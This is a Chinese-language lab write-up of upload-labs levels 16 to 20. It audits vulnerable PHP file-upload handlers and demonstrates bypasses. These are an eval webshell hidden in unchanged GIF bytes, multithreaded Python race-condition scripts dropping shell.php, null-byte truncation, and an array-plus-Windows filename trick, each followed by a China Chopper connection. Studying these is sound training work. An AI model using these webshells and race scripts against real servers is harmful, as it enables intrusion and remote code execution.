

# 特殊的文件上传漏洞（二）本章节讲解特殊的文件上传漏洞（二）。
# 绕过图像二次渲染Pass-16 为例
直接审计源码：
$is_upload = false ;$msg = null ;if (isset ($_POST ['submit' ])){ $filename = $_FILES ['upload_file' ]['name' ]; $filetype = $_FILES ['upload_file' ]['type' ]; $tmpname = $_FILES ['upload_file' ]['tmp_name' ]; $target_path =UPLOAD_PATH.'/' .basename ($filename ); $fileext = substr (strrchr ($filename ,"." ),1 ); if (($fileext == "jpg" ) && ($filetype =="image/jpeg" )){ if (move_uploaded_file ($tmpname ,$target_path )){ $im = imagecreatefromjpeg ($target_path ); if ($im == false ){ $msg = "该文件不是jpg格式的图片！" ; @unlink ($target_path ); }else { srand (time ()); $newfilename = strval (rand ()).".jpg" ; $img_path = UPLOAD_PATH.'/' .$newfilename ; imagejpeg ($im ,$img_path ); @unlink ($target_path ); $is_upload = true ; } } else { $msg = "上传出错！" ; } }else if (($fileext == "png" ) && ($filetype =="image/png" )){ if (move_uploaded_file ($tmpname ,$target_path )){ $im = imagecreatefrompng ($target_path ); if ($im == false ){ $msg = "该文件不是png格式的图片！" ; @unlink ($target_path ); }else { srand (time ()); $newfilename = strval (rand ()).".png" ; $img_path = UPLOAD_PATH.'/' .$newfilename ; imagepng ($im ,$img_path ); @unlink ($target_path ); $is_upload = true ; } } else { $msg = "上传出错！" ; } }else if (($fileext == "gif" ) && ($filetype =="image/gif" )){ if (move_uploaded_file ($tmpname ,$target_path )){ $im = imagecreatefromgif ($target_path ); if ($im == false ){ $msg = "该文件不是gif格式的图片！" ; @unlink ($target_path ); }else { srand (time ()); $newfilename = strval (rand ()).".gif" ; $img_path = UPLOAD_PATH.'/' .$newfilename ; imagegif ($im ,$img_path ); @unlink ($target_path ); $is_upload = true ; } } else { $msg = "上传出错！" ; } }else { $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！" ; } }
这里首先更新一下对于某些 php 代码细节的问题：
①对于 name 和 tmp_name 两个字段的理解
可以看出
$_FILES['upload_file'['name'] 获取到的是文件原始名称（不带路径，只有文件名 ）$_FILES['upload_file']['tmp_name'] 则是获取该文件在上传到服务器后的临时文件名（带绝对路径 ）
②UPLOAD_PATH，为什么大写？这是什么东西？
可以在 C:\phpStudyB\WWW\upload-labs-0.1\config.php 中看到如下 宏定义 ：
<?php header ("Content-type: text/html;charset=utf-8" );error_reporting (0 );define ("WWW_ROOT" ,$_SERVER ['DOCUMENT_ROOT' ]);define ("APP_ROOT" ,str_replace ('\\' ,'/' ,dirname (__FILE__ )));define ("APP_URL_ROOT" ,str_replace (WWW_ROOT,"" ,APP_ROOT));define ("INC_VUL_PATH" ,APP_URL_ROOT . "/include.php" );define ("UPLOAD_PATH" , "../upload" );?>
UPLOAD_PATH 是我们自定义的一个宏，它代表着 WWW 根目录下的 upload/ 子目录
③basename () 函数返回路径中的文件名部分
参数
描述
path 必需。规定要检查的路径。
suffix
可选。规定文件扩展名。如果文件有 suffix，则不会输出这个扩展名。
<?php $path = "/testweb/home.php" ; echo basename ($path ) ."<br/>" ; echo basename ($path ,".php" );?> 输出结果 > home.php > home
这里简单介绍下绕过 basename () 原理:
其实就是匹配最后一个 /（斜杠） ，然后截取 /（斜杠） 右侧的字符串输出
echo basename ("index.php/config.php?source" );>> config.php?source echo basename ("index.php/config.php/?source" );>> ?source
在使用默认语言环境设置时，basename () 会删除 文件名开头的非 ASCII 字符。
当斜杠右侧的字符 ascii 值为 47、129-255 时，basename 会解析回上一个目录，将其当成文件名输出
例如： http://127.0.0.1/basename_pass/index.php/config.php/%ff?source ， basename() 会返回 config.php 而不是 ?source
其中 47 对应的符号为’/’，在实际场景中没有利用价值
同时可能还会伴随着 $_SERVER['PHP_SELF'] 的使用， PHP_SELF是输出当前php文件相当于根目录的路径 (不带参数)
echo ($_SERVER ['PHP_SELF' ])：>> /1 .php/config.php/aa
好了，言归正传，本题目判断上传文件后缀名，如果满足 jpg、png、gif 则使用 imagecreatefromjpeg () 来生成一个 image 资源
resource imagecreatefromjpeg ( string $filename )
参数 ：该函数接受单个参数 $filename，该参数保存图像的名称。
返回值 ：成功时此函数返回图像资源标识符，错误时返回 FALSE。
---载入图像 imagecreatefromgif ()：创建一块画布，并从 GIF 文件或 URL 地址载入一副图像imagecreatefromjpeg ()：创建一块画布，并从 JPEG 文件或 URL 地址载入一副图像imagecreatefrompng ()：创建一块画布，并从 PNG 文件或 URL 地址载入一副图像imagecreatefromwbmp ()：创建一块画布，并从 WBMP 文件或 URL 地址载入一副图像imagecreatefromstring ()：创建一块画布，并从字符串中的图像流新建一副图像---输出图像 imagegif ()：以 GIF 格式将图像输出到浏览器或文件imagejpeg ()：以 JPEG 格式将图像输出到浏览器或文件imagepng ()：以 PNG 格式将图像输出到浏览器或文件imagewbmp ()：以 WBMP 格式将图像输出到浏览器或文件
这个函数比较有意思，会从传入的这个 filename 的文件中 分离出图片的信息 ，将 抛弃非图片的信息 。
分离后，使用 imagexxx() 函数 二次渲染输出 到浏览器中来显示。
那么，图片马将在此题中失效 。
我们首先来看一下上传后的图片和原图片的区别：
上传前–> 11111-before.gif
上传后–> 11111-after.gif
将两个文件拖入 winhex

使用 winhex——view——Synchronize & Compare，发现从 0x784 地址后有基本上都不一样，但是前面地址中基本没变过。
因此，绕过思路就是在白色区域（没有变化的区域）中，随便找一个地方，修改十六进制为 <?php @eval($_POST[ABCD]);?>
重命名为： fix-phpimage.gif ，上传抓包
上传成功后下载下来使用 Notepad++ 打开查看，搜索 php，发现一句话木马还在。
使用菜刀连接：
http://www.upload_lab.com/include.php?file=./upload/29139.gif
成功连接
# 利用条件竞争漏洞（1）Pass-17 为例
阅读源码
$is_upload = false ;$msg = null ;if (isset ($_POST ['submit' ])){ $ext_arr = array ('jpg' ,'png' ,'gif' ); $file_name = $_FILES ['upload_file' ]['name' ]; $temp_file = $_FILES ['upload_file' ]['tmp_name' ]; $file_ext = substr ($file_name ,strrpos ($file_name ,"." )+1 ); $upload_file = UPLOAD_PATH . '/' . $file_name ; if (move_uploaded_file ($temp_file , $upload_file )){ if (in_array ($file_ext ,$ext_arr )){ $img_path = UPLOAD_PATH . '/' . rand (10 , 99 ).date ("YmdHis" )."." .$file_ext ; rename ($upload_file , $img_path ); $is_upload = true ; }else { $msg = "只允许上传.jpg|.png|.gif类型文件！" ; unlink ($upload_file ); } }else { $msg = '上传出错！' ; } }
依旧是分析主逻辑：
设置白名单， jpg 、 png 、 gif
获取文件原始名、临时文件（带路径）、文件后缀
upload_file 为 上传路径 + / + 文件原始名判断是否临时文件能成功移动到永久目录
过滤好白名单后缀，设置 img_path 为 上传路径 + / + 随机数 + 时间戳 + . + 后缀
使用 rename() 函数将 upload_file 这个路径 重命名 成 img_path 这个路径
整个 上传后 的过程可以再精简为
move_uploaded_file() 复制in_array() 判断后缀是否在白名单内rename() 重命名成随机文件名
在这三步的过程中，如果是通过多个线程来同时进行，会存在 条件竞争 漏洞。
也就是说，总会有那么一种时刻，复制好以后 “还没来得及 判断和重命名”，这时就有个请求访问到了我们的上传文件。
所以即使不是 jpg 、 png 、 gif 也没关系了，只要请求在复制好以后过来访问，就可以访问上传后的文件。
不过有几个事情需要注意：
访问的文件如果是个 php，就可以成功解析执行。
不过由于之后还会因为继续走到步骤 2 判断，这时候 php 文件不满足白名单后缀，所以依旧会被 unlink 删除。
那么我们可以让这个上传 php 在 被访问后 到 被删之前 干如下的事情：
<?php fputs (fopen ('shell.php' ,'w' ),'<?php @eval($_POST["cmd"])?>' );?>
妙啊～
被删之前创建一个 shell.php，保留下来，而里面正好就是一句话木马。
第一个线程池 做 上传 代码：
注意
用到了 hackhttp 库和 Pool 库
本来的 backdoor.php 中只含有一句话木马，我们需要在抓包时给它替换成 生成shell.php那一句代码
在使用 pool 的 map 方法的时候，第一个参数为线程要处理函数，第二个参数为处理函数的参数…
import hackhttpfrom multiprocessing.dummy import Pool as ThreadPooldef upload (counts ): hh = hackhttp.hackhttp() raw = """POST /Pass-17/index.php?action=show_code HTTP/1.1 Host: www.upload_lab.com User-Agent: Mozilla/5.0 (Windows NT 5.2; WOW64; rv:15.0) Gecko/20100101 Firefox/15.0.1 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Proxy-Connection: keep-alive Referer: http://www.upload_lab.com/Pass-17/index.php?action=show_code Content-Type: multipart/form-data; boundary=---------------------------31673223865021 Content-Length: 345 -----------------------------31673223865021 Content-Disposition: form-data; name="upload_file"; filename="backdoor.php" Content-Type: application/octet-stream <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"])?>');?> -----------------------------31673223865021 Content-Disposition: form-data; name="submit" submit -----------------------------31673223865021-- """ code,head,html,redirect,log = hh.http('http://www.upload_lab.com/Pass-17/index.php' ,raw=raw) print code pool = ThreadPool(50 ) pool.map (upload,range (10000 )) pool.close() pool.join()
第二个线程池 做 请求访问 代码：
注意
请求的地址为 'http://www.upload_lab.com/upload/backdoor.php
在使用 pool 的 map 方法的时候，第一个参数为线程要处理函数，第二个参数为处理函数的参数…
import hackhttpfrom multiprocessing.dummy import Pool as ThreadPooldef upload (counts ): hh = hackhttp.hackhttp() code,head,html,redirect,log = hh.http('http://www.upload_lab.com/upload/backdoor.php' ) print code pool = ThreadPool(50 ) pool.map (upload,range (5000 )) pool.close() pool.join()
可以看到左边上传成功，右边在请求的时候，会有几次是 200 请求成功的。
再次刷新文件夹，就会有 shell.php 产生
菜刀成功连接。
# 利用条件竞争漏洞（2）继续看源码：
$is_upload = false ;$msg = null ;if (isset ($_POST ['submit' ])){ require_once ("./myupload.php" ); $imgFileName =time (); $u = new MyUpload ($_FILES ['upload_file' ]['name' ], $_FILES ['upload_file' ]['tmp_name' ], $_FILES ['upload_file' ]['size' ],$imgFileName ); $status_code = $u ->upload (UPLOAD_PATH); switch ($status_code ) { case 1 : $is_upload = true ; $img_path = $u ->cls_upload_dir . $u ->cls_file_rename_to; break ; case 2 : $msg = '文件已经被上传，但没有重命名。' ; break ; case -1 : $msg = '这个文件不能上传到服务器的临时文件存储目录。' ; break ; case -2 : $msg = '上传失败，上传目录不可写。' ; break ; case -3 : $msg = '上传失败，无法上传该类型文件。' ; break ; case -4 : $msg = '上传失败，上传的文件过大。' ; break ; case -5 : $msg = '上传失败，服务器已经存在相同名称文件。' ; break ; case -6 : $msg = '文件无法上传，文件不能复制到目标目录。' ; break ; default : $msg = '未知错误！' ; break ; } } class MyUpload ...... ...... ...... var $cls_arr_ext_accepted = array ( ".doc" , ".xls" , ".txt" , ".pdf" , ".gif" , ".jpg" , ".zip" , ".rar" , ".7z" ,".ppt" , ".html" , ".xml" , ".tiff" , ".jpeg" , ".png" , ".aaa" ); ...... ...... ...... function upload ( $dir ) $ret = $this ->isUploadedFile (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } $ret = $this ->setDir ( $dir ); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } $ret = $this ->checkExtension (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } $ret = $this ->checkSize (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } if ( $this ->cls_file_exists == 1 ){ $ret = $this ->checkFileExists (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } } $ret = $this ->move (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } if ( $this ->cls_rename_file == 1 ){ $ret = $this ->renameFile (); if ( $ret != 1 ){ return $this ->resultUpload ( $ret ); } } return $this ->resultUpload ( "SUCCESS" ); } ...... ...... ...... };
可以分析整体也是分了三个部分：
checkExtension() 检查白名单后缀move() 复制到永久目录中renamefile() 重命名
也就是说，总有那么一种时刻，在检查完后缀、move 之后，在重命名之前有个请求一直在访问上传的文件名，令 Apache 去解析它。
这题和前面的题不一样的点在于：
那么，我们需要先上传可以上传的文件 backdoor.aaa【包含一句话木马】。
var $cls_arr_ext_accepted = array ( ".doc" , ".xls" , ".txt" , ".pdf" , ".gif" , ".jpg" , ".zip" , ".rar" , ".7z" ,".ppt" , ".html" , ".xml" , ".tiff" , ".jpeg" , ".png" , ".aaa" ); 可以上传backdoor.aaa
同时我们还知道 Apache 解析文件是对文件名的从后向前开始解析，如果在这个从后向前的过程中出现.php，那么就会将其解析成 php 文件
那么我们可以写成：
同样是条件漏洞线程攻击即可生成 uploadbackdoor.php.aaa
附上代码：
第一个线程池上传
import hackhttpfrom multiprocessing.dummy import Pool as ThreadPooldef upload (lists ): hh = hackhttp.hackhttp() raw = """POST /Pass-18/index.php HTTP/1.1 Host: www.upload_lab.com User-Agent: Mozilla/5.0 (Windows NT 5.2; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Referer: http://www.upload_lab.com/Pass-18/index.php Connection: keep-alive Upgrade-Insecure-Requests: 1 Content-Type: multipart/form-data; boundary=---------------------------8116162727142 Content-Length: 342 -----------------------------8116162727142 Content-Disposition: form-data; name="upload_file"; filename="backdoor.php.aaa" Content-Type: application/octet-stream <?php @eval($_POST["cmd"]);?> -----------------------------8116162727142 Content-Disposition: form-data; name="submit" submit -----------------------------8116162727142-- """ code,head,html,redirect,log = hh.http('http://www.upload_lab.com/Pass-18/index.php' ,raw=raw) print code pool = ThreadPool(50 ) pool.map (upload,range (10000 )) pool.close() pool.join()
第二个线程池请求访问
import hackhttpfrom multiprocessing.dummy import Pool as ThreadPooldef upload (lists ): hh = hackhttp.hackhttp() code,head,html,redirect,log = hh.http('http://www.upload_lab.com/upload/backdoor.php.aaa' ) print code pool = ThreadPool(50 ) pool.map (upload,range (15000 )) pool.close() pool.join()
但其实，经过试验后，Pass18 的攻击代码同样也对 Pass19 适用，分析原因是因为：
整体详细点是分了 5 个部分：
isUploadedFile() 判断是否是 POST 请求上传的文件setDir() 设置路径checkExtension() 检查白名单后缀move() 复制到永久目录中renamefile() 重命名
这 步骤1 、 步骤2 到 步骤3 之间也相差一段时间，那么完全可以上传 php 文件来进行条件竞争访问，生成 shell.php ，后面就无所谓 backdoor.php 被删除了。
# 利用 00 截断绕过特定检查依旧看 Pass-19 的源码
$is_upload = false ;$msg = null ;if (isset ($_POST ['submit' ])) { if (file_exists (UPLOAD_PATH)) { $deny_ext = array ("php" ,"php5" ,"php4" ,"php3" ,"php2" ,"html" ,"htm" ,"phtml" ,"pht" ,"jsp" ,"jspa" ,"jspx" ,"jsw" ,"jsv" ,"jspf" ,"jtml" ,"asp" ,"aspx" ,"asa" ,"asax" ,"ascx" ,"ashx" ,"asmx" ,"cer" ,"swf" ,"htaccess" ); $file_name = $_POST ['save_name' ]; $file_ext = pathinfo ($file_name ,PATHINFO_EXTENSION); if (!in_array ($file_ext ,$deny_ext )) { $temp_file = $_FILES ['upload_file' ]['tmp_name' ]; $img_path = UPLOAD_PATH . '/' .$file_name ; if (move_uploaded_file ($temp_file , $img_path )) { $is_upload = true ; }else { $msg = '上传出错！' ; } }else { $msg = '禁止保存为该类型文件！' ; } } else { $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！' ; } }
漏洞点在于：
使用 in_array 去黑名单里寻找看是否存在，不存在则继续。
使用 move_uploaded_file 来复制临时文件到永久目录
而永久目录的 file_name 变量来自于 POST 请求的 save_name 参数，这是可控点
绕过如下：
修改 backdoor.php 为 backdoor.jpg 绕过步骤 1
使用 POST-00截断 ，对 save_name 进行路径截断， 提前解析成php文件 并保存
filename="backdoor.jpg" 233.php+upload-19.jpg
修改为 00
上传成功，菜刀连接即可。
# 利用数组 + windows 特性绕过直接看源码
$is_upload = false ;$msg = null ;if (!empty ($_FILES ['upload_file' ])){ $allow_type = array ('image/jpeg' ,'image/png' ,'image/gif' ); if (!in_array ($_FILES ['upload_file' ]['type' ],$allow_type )){ $msg = "禁止上传该类型文件!" ; }else { $file = empty ($_POST ['save_name' ]) ? $_FILES ['upload_file' ]['name' ] : $_POST ['save_name' ]; if (!is_array ($file )) { $file = explode ('.' , strtolower ($file )); } $ext = end ($file ); $allow_suffix = array ('jpg' ,'png' ,'gif' ); if (!in_array ($ext , $allow_suffix )) { $msg = "禁止上传该后缀文件!" ; }else { $file_name = reset ($file ) . '.' . $file [count ($file ) - 1 ]; $temp_file = $_FILES ['upload_file' ]['tmp_name' ]; $img_path = UPLOAD_PATH . '/' .$file_name ; if (move_uploaded_file ($temp_file , $img_path )) { $msg = "文件上传成功！" ; $is_upload = true ; } else { $msg = "文件上传失败！" ; } } } }else { $msg = "请选择要上传的文件！" ; }
首先映入眼帘就是检查了 MIME ，所以我们必须修改 MIME 为 image/jpeg 来先绕过 MIME 检查。
接着，开始检查文件名：
file 变量要求是一个数组，即使不是也要最后通过 explode 函数以点为分隔符变成 数组 。ext 变量就是 file 数组中最后一个元素，也就是 ` 文件后缀名。判断后缀名是否在白名单内，如果在则继续执行
核心： file_name = reset($file) . '.' . $file[count($file) - 1]
意思是 file_name 由 file数组第一位 + . + file数组最后一位 拼接而成 【开发者只考虑了普通的 xxx.jpg 这样只有两个元素数组的情况】
而 file数组 可以由可控变量 save_name 而来， save_name 可以一开始就是 数组
那么，我们就可以一一来绕过：
修改 MIME
Content-Disposition : form-data; name="upload_file"; filename="backdoor.php"Content-Type : image/jpeg
修改可控变量 save_name ，使其变成 save_name[] 数组，我们自定义两个元素（分别是 save_name[0] 和 save_name[2] ）
由于只设置了数组的 2个元素 ，所以数组长度 count($file) 为 2
由于 reset($file) 输出的是 save_name[0] ，因此， reset($file) — 会输出 —> 33322.php
由于 $file[count($file) - 1] 输出的是 save_name[2 - 1] (我们并没有设置)，因此， $file[count($file) - 1] ---- 会输出 —> 空
-----------------------------6270582926777 Content-Disposition : form-data; name="save_name[0]"33322.php -----------------------------6270582926777 Content-Disposition : form-data; name="save_name[2]"jpg
save_name[1] 不用设置，目前的情况正好能使得
$file_name = reset ($file ) . '.' . $file [count ($file ) - 1 ];输出 33322 .php.空
而在 windows 中，空和点作为结尾，会直接删除，从而保留 33322.php
正常解析访问，菜刀也可正常连接。